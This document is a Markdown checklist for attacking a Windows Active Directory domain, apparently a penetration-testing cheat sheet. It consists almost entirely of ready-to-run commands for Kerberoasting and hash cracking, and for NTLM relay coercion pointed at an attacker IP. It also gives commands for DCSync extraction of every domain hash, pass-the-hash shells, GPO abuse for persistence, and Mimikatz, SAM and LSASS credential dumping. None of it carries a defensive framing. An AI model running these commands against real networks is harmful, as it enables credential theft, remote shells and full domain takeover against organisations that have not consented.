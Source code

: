 ### Authenticated Enumeration (Have Credentials)
- [ ] **Kerberoasting**
  - [ ] `impacket-GetUserSPNs DOMAIN/user:pass -dc-ip DC_IP -request`
  - [ ] Crack: `hashcat -m 13100 hashes.txt rockyou.txt`
  - [ ] Check if service accounts are Domain Admins

- [ ] **BloodHound collection**
  - [ ] `bloodhound-python -u user -p pass -ns DC_IP -d DOMAIN -c All --zip`
  - [ ] Import into BloodHound GUI
  - [ ] Run pre-built queries: Shortest path to DA, Kerberoastable accounts
  - [ ] Identify attack paths

- [ ] **Share enumeration**
  - [ ] `crackmapexec smb NETWORK -u user -p pass --shares`
  - [ ] Spider shares: `crackmapexec smb TARGET -u user -p pass -M spider_plus`
  - [ ] Look for: passwords.txt, config files, scripts, backups

- [ ] **Domain enumeration with PowerView**
  - [ ] Get domain info: `Get-Domain`
  - [ ] Get domain controllers: `Get-DomainController`
  - [ ] Get users: `Get-DomainUser`
  - [ ] Get groups: `Get-DomainGroup`
  - [ ] Get computers: `Get-DomainComputer`

### Exploitation & Privilege Escalation
- [ ] **NTLM Relay Attacks (if SMB signing disabled)**
  - [ ] PetitPotam: `python3 PetitPotam.py ATTACKER_IP DC_IP`
  - [ ] DFSCoerce: `python3 DFSCoerce.py ATTACKER_IP DC_IP`
  - [ ] Relay to LDAPS: `impacket-ntlmrelayx -t ldaps://DC_IP`
  - [ ] Check if escalation successful

- [ ] **DCSync (if Domain Admin)**
  - [ ] `impacket-secretsdump DOMAIN/user:pass@DC_IP -just-dc`
  - [ ] Extract all hashes including krbtgt

- [ ] **Pass-the-Hash**
  - [ ] Test hash across network: `crackmapexec smb NETWORK -u user -H HASH`
  - [ ] Get shell: `evil-winrm -i TARGET -u user -H HASH`
  - [ ] `impacket-psexec DOMAIN/user@TARGET -hashes :HASH`

- [ ] **Kerberos attacks**
  - [ ] Unconstrained delegation: Check BloodHound
  - [ ] Constrained delegation: `Get-DomainComputer -TrustedToAuth`
  - [ ] Resource-based constrained delegation

- [ ] **GPO abuse**
  - [ ] Check for writable GPOs: `Get-DomainGPO | Get-DomainObjectAcl`
  - [ ] Modify GPO for persistence

### Windows Post-Exploitation
- [ ] **Credential dumping**
  - [ ] Mimikatz: `sekurlsa::logonpasswords`
  - [ ] SAM: `reg save HKLM\SAM sam.backup`
  - [ ] LSA Secrets: `reg save HKLM\SECURITY security.backup`
  - [ ] LSASS dump: `procdump -ma lsass.exe lsass.dmp`
